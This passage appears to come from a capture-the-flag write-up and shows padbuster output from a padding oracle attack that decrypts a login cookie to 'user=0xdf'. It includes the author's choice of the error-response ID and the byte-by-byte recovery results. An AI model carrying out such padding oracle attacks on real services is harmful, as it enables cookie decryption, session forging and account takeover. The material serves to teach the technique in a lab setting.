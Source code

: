 ```
-------------------------------------------------------                                 
1       1       200     1133    N/A         
2 **    255     200     15      N/A         
-------------------------------------------------------                                 

Enter an ID that matches the error condition                                            
NOTE: The ID# marked with ** is recommended :

```

In the table, 255 requests returned 15 bytes (`Invalid padding`), and one returned 1133 bytes (likely the logged in page). So the error is ID 2. I’ll enter that and hit enter to continue:

```

Continuing test with selection 2

[+] Success: (38/256) [Byte 8]              
[+] Success: (90/256) [Byte 7]              
[+] Success: (166/256) [Byte 6]             
[+] Success: (166/256) [Byte 5]             
[+] Success: (213/256) [Byte 4]             
[+] Success: (25/256) [Byte 3]              
[+] Success: (61/256) [Byte 2]              
[+] Success: (173/256) [Byte 1]             

Block 1 Results:                            
[+] Cipher Text (HEX): d681fd3bd73b17a1                                                 
[+] Intermediate Bytes (HEX): 5bc4e12e5e59a4db                                          
[+] Plain Text: user=0xd                    

Use of uninitialized value $plainTextBytes in concatenation (.) or string at /usr/bin/padbuster line 361, <STDIN> line 1.                                                        
*** Starting Block 2 of 2 ***               

[+] Success: (89/256) [Byte 8]              
[+] Success: (238/256) [Byte 7]             
[+] Success: (193/256) [Byte 6]             
[+] Success: (44/256) [Byte 5]              
[+] Success: (199/256) [Byte 4]             
[+] Success: (4/256) [Byte 3]               
[+] Success: (127/256) [Byte 2]             
[+] Success: (72/256) [Byte 1]              

Block 2 Results:                            
[+] Cipher Text (HEX): 3254cadd72119dd4                                                 
[+] Intermediate Bytes (HEX): b086fa3cd03c10a6                                          
[+] Plain Text: f                           
-------------------------------------------------------                                 
** Finished ***                             

[+] Decrypted value (ASCII): user=0xdf      

[+] Decrypted value (HEX): 757365723D3078646607070707070707                             

[+] Decrypted value (Base64): dXNlcj0weGRmBwcHBwcHBw==
-------------------------------------------------------  

```
